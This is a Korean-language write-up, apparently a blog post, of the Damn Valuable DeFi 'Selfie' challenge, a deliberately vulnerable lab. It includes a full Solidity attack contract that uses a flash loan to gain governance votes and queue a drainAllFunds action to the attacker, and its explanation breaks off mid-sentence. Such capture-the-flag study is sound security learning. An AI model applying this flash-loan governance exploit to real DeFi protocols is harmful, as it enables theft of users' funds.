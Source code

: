 attacker-contracts 폴더에 attackSelfie 컨트랙트를 생성하였다.

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "../DamnValuableTokenSnapshot.sol";

interface ISimpleGovernance{
    function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256);
    function executeAction(uint256 actionId) external payable ;
}

interface ISelfiePool{
    function flashLoan(uint256 borrowAmount) external ;
    function drainAllFunds(address receiver) external;
}

contract attackSelfie{

    DamnValuableTokenSnapshot governance_token;
    ISimpleGovernance SimpleGovernance;
    ISelfiePool pool;
    address attacker;
    uint256 actionId;
    constructor(address _SimpleGovernance,address _pool){
        SimpleGovernance = ISimpleGovernance(_SimpleGovernance);
        pool=ISelfiePool(_pool);
        attacker=msg.sender;
    }
    function loan(uint256 amount)public{
        pool.flashLoan(amount);
    }
    function receiveTokens(address _addr,uint256 amount) external {
        governance_token=DamnValuableTokenSnapshot(_addr);
        governance_token.snapshot();
        actionId=SimpleGovernance.queueAction(address(pool),abi.encodeWithSignature("drainAllFunds(address)",attacker),0);
        governance_token.transfer(msg.sender,amount);
    }

    function attack()public{
        SimpleGovernance.executeAction(actionId);
    }

}
```

loan은 대출 풀에서 대출을 받는 함수로 이 때 amount는 대출 풀에 있는 최대한의 토큰을 가져올 것이다.

receiveTokens는 대출을 받으면 실행되는 함수로 

